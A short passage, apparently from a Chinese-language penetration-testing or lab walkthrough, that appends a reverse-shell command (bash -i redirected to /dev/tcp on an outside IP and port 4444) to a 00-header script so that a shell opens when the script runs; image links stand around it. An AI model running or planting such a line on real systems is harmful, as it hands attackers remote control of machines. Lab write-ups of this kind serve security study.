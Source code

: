![image-20240728131245342](./imgs/image-20240728131245342.png)

通过echo追加的方式，在其中添加反弹shell代码：

```bash
echo "bash -c 'bash -i >& /dev/tcp/172.16.31.10/4444 0>&1'" >> 00-header
```

![image-20240728131332738](./imgs/image-20240728131332738.png)
